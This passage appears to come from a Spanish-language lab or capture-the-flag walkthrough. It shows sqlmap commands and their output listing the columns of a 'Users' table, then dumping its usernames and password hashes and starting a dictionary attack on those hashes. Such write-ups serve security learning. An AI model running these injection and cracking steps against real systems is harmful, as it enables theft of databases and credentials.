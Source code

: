 Obtenemos dos tablas **StaffDetails** y **Users** .<br>

#### Obtener Columnas de Users


```shell
python3 sqlmap.py -r <ruta_archivo> -D Staff -T Users --columns
```
```output
-- output --

---
[01:40:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:40:38] [INFO] fetching columns for table 'Users' in database 'Staff'
Database: Staff
Table: Users
[3 columns]
+----------+-----------------+
| Column   | Type            |
+----------+-----------------+
| Password | varchar(255)    |
| UserID   | int(6) unsigned |
| Username | varchar(255)    |
+----------+-----------------+
```

De las tres columnas encontradas intentaremos dumpear las filas de **Password** y **Username**.<br>


#### Dumpear Filas de Username y Password


En este caso las contraseñas no están en texto plano, sino los hashes de las contraseñas y si usamos la opción por defecto para crackear las contraseña con SQLMAP no la encontrará ya que parece que la contraseña no esta en el diccionario de la herramienta.

```shell
python3 sqlmap.py -r <ruta_archivo> -D Staff -T Users -C Username,Password --dump
```
```output
-- output --

---
[01:51:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:51:54] [INFO] fetching entries of column(s) 'Password,Username' for table 'Users' in database 'Staff'
[01:51:55] [INFO] recognized possible password hashes in column 'Password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 

do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[01:52:01] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/home/k4l1-00/sqlmap-dev/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 

[01:52:06] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 

[01:52:10] [INFO] starting dictionary-based cracking (md5_generic_passwd)
```